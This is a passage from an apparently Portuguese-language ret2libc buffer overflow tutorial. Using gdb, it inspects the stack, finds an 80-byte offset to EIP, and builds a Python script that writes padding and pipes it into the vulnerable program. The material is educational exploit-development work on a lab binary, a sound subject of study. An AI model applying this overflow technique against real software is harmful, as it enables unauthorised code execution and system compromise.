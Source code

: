 `(gdb)`


*Difícil, não?Bem, vamos continuar. Para enviarmos nosso arquivo **payload.txt** criado pelo arquivo **.py**, usamos o romando:*

`run < payload.txt`
*Ou, caso queira fazer manualmente para adiantar, pode usar o python:*
`r <<< $(python -c 'print "A"*4')`
*A saída:*

    (gdb) run < payload.txt
    Starting program: C:\Users\ecarlosn\Desktop\ret2libc\ret2libc.exe < payload.txt
    [New Thread 5896.0x1284]
    
    Breakpoint 1, pre_c_init () at /home/ruben/mingw-w64/src/mingw-w64/mingw-w64-crt/crt/crtexe.c:108
    108     /home/ruben/mingw-w64/src/mingw-w64/mingw-w64-crt/crt/crtexe.c: No such file or directory.

*Certo, agora que atingimos nosso breakpoint, podemos parar e analizar a memória. Mais específicamente a **stack frame** que é onde nosso payload vai estar, bem como o **EIP***
`(gdb) x / 32x $ esp`

![gdsc](https://i.imgur.com/nZdulIl.png)

*Boom! aí estão nossos **A's**. E o melhor, estão exatamente onde nós o colocamos na stack-frame. Nossos **A's** começam no endereço **0xbffff77c** e vão até **0xbffff77f**. Ótimo, agora que ja temos esta informação, basta procuramos o **EIP** para descobrirmos o tamanho do nosso payload.*

`(gdb) info frame`

![gdbeip](https://i.imgur.com/FmPRmXG.png)

*Sucesso! agora sabemos que o **EIP** está no endereço de memória **0xbffff7cc** (destacado em vermelho) e contém o endereço **0x08048505** (realçado em verde). E, olha só, não está tão distante do nosso endereço inicial. Podemos checar a distancia entre eles com o seguinte comando:*
`p 0xbffff7cc - 0xbffff77c`

`(gdb) p 0xbffff7cc - 0xbffff77c`

`$1 = 80`

`(gdb)`

*80.  E caso você se pergunte: "Qual a utilidade deste 80?", esta é a quantidade de **A's** para nosso overflow até **EIP**. Mas, atenção: isto não fará com que **EIP** seja sobrescrito, porém, estará à 1 byte de o fazer.*
*Vamos modificar nosso script python para o que encontramos.*

    #!/usr/bin/env python
    import os
    import struct
    
    def main():
        padding = 80
        payload = "A" * padding
        MeuPayload = open("payload.txt", "w")
        MeuPayload.write(payload)
        MeuPayload.close()
        os.system("cat payload.txt | NomeDoArquivoCCompilado")
    